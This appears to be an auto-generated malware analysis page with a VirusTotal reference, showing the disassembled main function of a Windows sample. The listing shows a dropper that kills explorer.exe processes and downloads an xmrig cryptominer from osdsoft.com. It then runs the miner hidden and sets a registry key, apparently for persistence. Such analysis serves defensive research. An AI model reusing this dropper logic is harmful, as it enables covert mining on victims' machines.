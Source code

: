 ```yaml
---
layout: post
title:  "main @ fca52b995e756cff97168f6fef94b37d"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** main
- **Origin (md5):** fca52b995e756cff97168f6fef94b37d
- **VirusTotal:** [virustotal.com/gui/file/fca52b995e756cff97168f6fef94b37d][virustotal_ref]

# Code Tags
<span class="tag" id="HTTP">HTTP</span>
<span class="tag" id="PROCESS">PROCESS</span>


# Behaviour Tags
<span class="bhv-tag" id="SCREENSHOTS_FOREGROUND_WINDOW">SCREENSHOTS_FOREGROUND_WINDOW / 0.035928278579712446</span>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [0, 0, '<b><a href="/report/main@fca52b995e756cff97168f6fef94b37d">main</a><br>@fca52b995e756cff97168f6fef94b37d</b><br>', 'point { fill-color: #e0440e; }'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push ebp
mov ebp, esp
and esp, 0xfffffff0
sub esp, 0x908
mov eax, dword[0x41b010]
xor eax, esp
mov dword[esp+0x904], eax
push esi
push edi
xor eax, eax
mov dword[esp+0x10], 0
push 0x800
push eax
mov word[esp+0x30], ax
lea eax, [esp+0x110]
push eax
mov dword[esp+0x44], 0
mov dword[esp+0x48], 7
call fcn.00406cb0
add esp, 0xc
lea eax, [esp+0x108]
push eax
push 0
push 0
push 0x1a
push 0
call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]
test eax, eax
jne 0x402d06
lea ecx, [esp+0x108]
lea edx, [ecx+2]
mov ax, word[ecx]
add ecx, 2
test ax, ax
jne 0x402ce5
sub ecx, edx
lea eax, [esp+0x108]
sar ecx, 1
push ecx
push eax
lea ecx, [esp+0x30]
call fcn.004011e0
push str.Microsoftexplorer.exe
lea ecx, [esp+0x2c]
call fcn.00401320
xor ecx, ecx
movups xmm0, xmmword[eax]
movups xmmword[esp+0x70], xmm0
movq xmm0, qword[eax+0x10]
movq qword[esp+0x80], xmm0
mov dword[eax+0x10], 0
mov dword[eax+0x14], 7
mov word[eax], cx
mov edx, dword[esp+0x3c]
cmp edx, 8
jb 0x402d79
mov ecx, dword[esp+0x28]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x402d6f
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403401
push edx
push ecx
call fcn.00404ff5
add esp, 8
lea eax, [esp+0x70]
push eax
lea ecx, [esp+0x44]
call fcn.004039b0
push 0x41ca3c
push 0x403d50
push 0x41ca30
call fcn.00404336
add esp, 0xc
test eax, eax
je 0x403406
push 0x41ca3c
push 0x403d50
push 0x41ca30
call fcn.00404336
add esp, 0xc
test eax, eax
je 0x40340b
cmp dword[esp+0x54], 8
lea ecx, [esp+0x10]
lea eax, [esp+0x40]
cmovae eax, dword[esp+0x40]
push ecx
push eax
call fcn.004043ca
add esp, 8
cmp eax, 8
je 0x402e19
cmp eax, 0xffffffff
je 0x402e19
lea eax, [esp+0x70]
push eax
lea ecx, [esp+0x2c]
call fcn.004039b0
lea ecx, [esp+0x28]
call fcn.004027b0
cmp eax, 0x173a00
jne 0x402e0d
test edx, edx
je 0x402e20
mov byte[esp+0xf], 1
mov eax, 3
jmp 0x402e2a
mov eax, 1
jmp 0x402e25
mov eax, 3
mov byte[esp+0xf], 0
test al, 2
je 0x402e81
mov edx, dword[esp+0x3c]
cmp edx, 8
jb 0x402e6a
mov ecx, dword[esp+0x28]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x402e60
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403410
push edx
push ecx
call fcn.00404ff5
add esp, 8
xor eax, eax
mov dword[esp+0x38], 0
mov dword[esp+0x3c], 7
mov word[esp+0x28], ax
mov edx, dword[esp+0x54]
cmp edx, 8
jb 0x402ebd
mov ecx, dword[esp+0x40]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x402eb3
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403410
push edx
push ecx
call fcn.00404ff5
add esp, 8
cmp byte[esp+0xf], 0
mov edi, dword[sym.imp.KERNEL32.dll_CloseHandle]
je 0x403119
lea eax, [esp+0x70]
push eax
lea ecx, [esp+0x5c]
call fcn.004039b0
lea ecx, [esp+0x58]
call fcn.00402730
mov edx, dword[esp+0x6c]
mov byte[esp+0xf], al
cmp edx, 8
jb 0x402f29
mov ecx, dword[esp+0x58]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x402f1b
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403415
push edx
push ecx
call fcn.00404ff5
mov al, byte[esp+0x17]
add esp, 8
test al, al
je 0x403056
push 0xc
xor eax, eax
mov dword[esp+0x3c], 0
push str.explorer.exe
lea ecx, [esp+0x30]
mov dword[esp+0x44], 7
mov word[esp+0x30], ax
call fcn.004011e0
push 0
push 0xf
call dword[sym.imp.KERNEL32.dll_CreateToolhelp32Snapshot]
lea ecx, [esp+0x108]
mov dword[esp+0x10], eax
push ecx
push eax
mov dword[esp+0x110], 0x22c
call dword[sym.imp.KERNEL32.dll_Process32FirstW]
mov edi, dword[esp+0x28]
test eax, eax
je 0x40300e
nop dword[eax]
cmp dword[esp+0x3c], 8
lea eax, [esp+0x28]
lea ecx, [esp+0x12c]
cmovae eax, edi
mov dx, word[ecx]
cmp dx, word[eax]
jne 0x402fc9
test dx, dx
je 0x402fc5
mov dx, word[ecx+2]
cmp dx, word[eax+2]
jne 0x402fc9
add ecx, 4
add eax, 4
test dx, dx
jne 0x402fa3
xor eax, eax
jmp 0x402fce
sbb eax, eax
or eax, 1
test eax, eax
jne 0x402ff8
push dword[esp+0x110]
push eax
push 1
call dword[sym.imp.KERNEL32.dll_OpenProcess]
mov esi, eax
test esi, esi
je 0x402ff8
push 9
push esi
call dword[sym.imp.KERNEL32.dll_TerminateProcess]
push esi
call dword[sym.imp.KERNEL32.dll_CloseHandle]
lea eax, [esp+0x108]
push eax
push dword[esp+0x14]
call dword[sym.imp.KERNEL32.dll_Process32NextW]
test eax, eax
jne 0x402f90
push dword[esp+0x10]
call dword[sym.imp.KERNEL32.dll_CloseHandle]
mov eax, dword[esp+0x3c]
cmp eax, 8
jb 0x403050
lea ecx, [eax*2+2]
mov eax, edi
cmp ecx, 0x1000
jb 0x403046
mov edi, dword[edi-4]
add ecx, 0x23
sub eax, edi
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x40341a
push ecx
push edi
call fcn.00404ff5
add esp, 8
mov edi, dword[sym.imp.KERNEL32.dll_CloseHandle]
lea eax, [esp+0x70]
push eax
lea ecx, [esp+0x5c]
call fcn.004039b0
push 0x41ca3c
push 0x403d50
push 0x41ca30
mov dword[esp+0x1c], 0
call fcn.00404336
add esp, 0xc
test eax, eax
je 0x403406
lea edx, [esp+0x10]
mov dword[esp+0x14], 0x41ca3c
lea ecx, [esp+0x58]
call fcn.00402990
push 0x41ca3c
push 0x403d50
push 0x41ca30
call fcn.00404336
add esp, 0xc
test eax, eax
je 0x403406
mov eax, dword[esp+0x14]
mov eax, dword[eax+4]
cmp eax, dword[0x41ca40]
jne 0x403429
cmp dword[esp+0x10], 0
jne 0x403429
mov edx, dword[esp+0x6c]
cmp edx, 8
jb 0x403119
mov ecx, dword[esp+0x58]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x40310f
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x40341f
push edx
push ecx
call fcn.00404ff5
add esp, 8
cmp dword[esp+0x84], 8
lea eax, [esp+0x70]
push 0
cmovae eax, dword[esp+0x74]
push 0
push eax
push str.http:__osdsoft.com_update20180524_xmrig_notls.exe
push 0
call dword[sym.imp.urlmon.dll_URLDownloadToFileW]
test eax, eax
jne 0x4033aa
call fcn.00404321
mov ecx, eax
cmp ecx, 1
jbe 0x403151
dec ecx
lea esi, [esp+0x106]
nop dword[eax+eax]
mov eax, 0xcccccccd
sub esi, 2
mul ecx
shr edx, 3
lea eax, [edx+edx*4]
add eax, eax
sub ecx, eax
add ecx, 0x30
mov word[esi], cx
mov ecx, edx
test ecx, ecx
jne 0x403160
xor eax, eax
mov dword[esp+0x38], edx
mov word[esp+0x28], ax
lea eax, [esp+0x106]
mov dword[esp+0x3c], 7
cmp esi, eax
je 0x4031ad
sub eax, esi
lea ecx, [esp+0x28]
sar eax, 1
push eax
push esi
call fcn.004011e0
lea eax, [esp+0x28]
push eax
push ecx
lea edx, [esp+0x78]
lea ecx, [esp+0x60]
call fcn.004015a0
add esp, 4
lea ecx, [esp+0x44]
mov edx, eax
call fcn.00401420
add esp, 4
mov dword[esp+0x90], 0x44
cmp dword[esp+0x54], 8
lea ecx, [esp+0x10]
xorps xmm0, xmm0
lea eax, [esp+0x40]
cmovae eax, dword[esp+0x40]
push ecx
lea ecx, [esp+0x94]
movlpd qword[esp+0x98], xmm0
push ecx
push 0
push 0
push 0x8000000
push 1
push 0
push 0
push eax
push 0
movlpd qword[esp+0xc4], xmm0
movlpd qword[esp+0xcc], xmm0
movlpd qword[esp+0xd4], xmm0
movlpd qword[esp+0xdc], xmm0
movlpd qword[esp+0xe4], xmm0
movlpd qword[esp+0xec], xmm0
movlpd qword[esp+0xf4], xmm0
movaps xmmword[esp+0x38], xmm0
call dword[sym.imp.KERNEL32.dll_CreateProcessW]
push dword[esp+0x10]
call edi
push dword[esp+0x14]
call edi
mov edx, dword[esp+0x54]
cmp edx, 8
jb 0x4032a7
mov ecx, dword[esp+0x40]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x40329d
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403424
push edx
push ecx
call fcn.00404ff5
add esp, 8
mov edx, dword[esp+0x6c]
cmp edx, 8
jb 0x4032e3
mov ecx, dword[esp+0x58]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x4032d9
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403468
push edx
push ecx
call fcn.00404ff5
add esp, 8
mov edx, dword[esp+0x3c]
xor eax, eax
mov dword[esp+0x68], 0
mov dword[esp+0x6c], 7
mov word[esp+0x58], ax
cmp edx, 8
jb 0x403336
mov ecx, dword[esp+0x28]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x40332c
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x403468
push edx
push ecx
call fcn.00404ff5
add esp, 8
sub esp, 0x18
xor eax, eax
mov ecx, esp
push 1
mov dword[ecx+0x10], 0
mov dword[ecx+0x14], 7
push 0x4186a8
mov word[ecx], ax
call fcn.004011e0
sub esp, 0x18
xor eax, eax
mov ecx, esp
push 9
mov dword[ecx+0x10], 0
mov dword[ecx+0x14], 7
push 0x4186ac
mov word[ecx], ax
call fcn.004011e0
sub esp, 0x18
xor eax, eax
mov ecx, esp
push 0x1c
mov dword[ecx+0x10], 0
mov dword[ecx+0x14], 7
push str.SoftwareWindowsUpdaterxmru
mov word[ecx], ax
call fcn.004011e0
call fcn.00402b20
add esp, 0x48
mov edx, dword[esp+0x84]
cmp edx, 8
jb 0x4033e9
mov ecx, dword[esp+0x70]
lea edx, [edx*2+2]
mov eax, ecx
cmp edx, 0x1000
jb 0x4033df
mov ecx, dword[ecx-4]
add edx, 0x23
sub eax, ecx
add eax, 0xfffffffc
cmp eax, 0x1f
ja 0x40346d
push edx
push ecx
call fcn.00404ff5
add esp, 8
mov ecx, dword[esp+0x90c]
xor eax, eax
pop edi
pop esi
xor ecx, esp
call fcn.00404d1a
mov esp, ebp
pop ebp
ret 0x10
call fcn.004088d8
call fcn.00408aaf
call fcn.00408aaf
call fcn.004088d8
call fcn.004088d8
call fcn.004088d8
call fcn.004088d8
call fcn.004088d8
push str.remove_p_:_invalid_argument
lea ecx, [esp+0x44]
call fcn.00403610
lea ecx, [esp+0x10]
call fcn.00401d90
lea ecx, [esp+0x90]
push dword[eax+4]
push dword[eax]
lea eax, [esp+0x48]
push eax
call fcn.004024a0
push 0x41973c
lea eax, [esp+0x94]
push eax
call fcn.00406135
call fcn.004088d8
call fcn.004088d8
int3

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/fca52b995e756cff97168f6fef94b37d